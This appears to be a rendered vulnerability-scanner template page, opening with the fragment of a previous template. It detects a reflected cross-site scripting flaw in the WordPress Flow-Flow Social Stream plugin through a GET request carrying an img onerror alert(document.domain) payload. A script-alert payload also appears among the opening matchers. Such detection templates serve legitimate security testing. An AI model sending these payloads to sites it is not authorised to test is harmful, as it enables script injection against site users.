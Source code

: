 - words
  1. \<script>alert(document.domain)\</script>
- part - body

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Flow-Flow Social Stream \<=3.0.71 - Cross-Site Scripting

## Description

- WordPress Flow-Flow Social Stream 3.0.7.1 and prior is vulnerable to cross-site scripting.
- severity - medium
- tags - xss,wordpress,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-admin/admin-ajax.php?action=fetch_posts&stream-id=1&hash=%3Cimg%20src=x%20onerror=alert(document.domain)%3E

### Matchers

**Type - word**

- part - body
- words
  1. "hash":"\<img src=x onerror=alert(document.domain)>"
  2. "errors"
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---